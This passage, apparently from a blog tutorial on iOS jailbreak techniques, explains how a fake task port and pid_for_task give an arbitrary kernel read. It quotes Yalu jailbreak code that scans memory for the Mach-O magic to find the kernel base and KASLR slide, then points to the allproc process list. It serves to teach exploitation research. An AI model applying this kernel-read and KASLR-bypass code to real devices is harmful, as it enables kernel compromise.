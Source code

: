 It is important to note that the offsets keep changing with different versions of iOS and its even different for different devices. These offsets are found both by looking at the kernel source code and also by looking at the kernelcache file.

This technique is very powerful and allows you to scour the kernel memory 4 bytes at a time. Another very important use case for is function is to find the kernel slide. All they have to do is to start reading the kernel memory backwards four bytes at a time until you get to the magic value **0xfeedfacf**. This address will denote the base address of the kernel, subtract it from the start address on the kernelcache when opened with IDA or Hopper and you will get the kernel slide. The following code from the Yalu jailbreak does just that.

{% highlight c %}
     while (1) {
            int32_t leaked = 0;
            // The offset from the start of "struct task" to "task->bsd_info" seems to be fixed to 0x360, but this is prone to change anytime in the future as apple sees fit
            // It'd be nice to use a heuristic method like how K33n Team does it with the cpu_clock thing
            *(uint64_t*) (faketask + procoff) = leaked_ptr - 0x10;
            // This tries to read a value from "task->bsd_info->p_pid" which translates to "faketask->bsd_info->p_pid = (leaked_ptr - 0x10)->p_pid = leaked_ptr"
            pid_for_task(foundport, &leaked);
            // Is it 0xfeedfacf?
            if (leaked == MH_MAGIC_64) {
                NSLog(@"found kernel text at %llx", leaked_ptr);
                break;
            }
            // Retreat one page and search again
            leaked_ptr -= 0x4000;
        }
    // Found kernel base!
    uint64_t kernel_base = leaked_ptr;
    .....................
    .....................
    // Calculating KASLR slide
    extern uint64_t slide;
    slide = kernel_base - 0xFFFFFFF007004000;
{% endhighlight %}
Once kernel base is obtained, you can find some important structures in the kernel memory, such as **extern struct proclist allproc;**, which can be found in the file **/bsd/sys/proc_internal.h**, since even though the kernel is slid because of **KASLR**, the structs are still at a fixed offset from the kernel base. As we can see from the kernel code, this struct contains a list of the prcesses. The symbol addresses can also be found using ****jtool2** --analyze** feature, which utilizes the unstripped kernelcache that Apple mistakenly pushed out as a facilitator.

{% highlight c %}
    File: ./bsd/sys/proc_internal.h
    673: extern lck_attr_t * proc_lck_attr;
    674: 
    675: LIST_HEAD(proclist, proc);
    676: extern struct proclist allproc;		/* List of all processes. */
    677: extern struct proclist zombproc;	/* List of zombie processes. */
    678: 
    679: extern struct proc *initproc;
    680: extern void	procinit(void);
    681: extern void proc_lock(struct proc *);
    682: extern void proc_unlock(struct proc *);
    683: extern void proc_spinlock(struct proc *);
    684: extern void proc_spinunlock(struct proc *);
    685: extern void proc_list_lock(void);
    686: extern void proc_list_unlock(void);
    687: extern void proc_klist_lock(void);
    688: extern void proc_klist_unlock(void);
{% endhighlight %}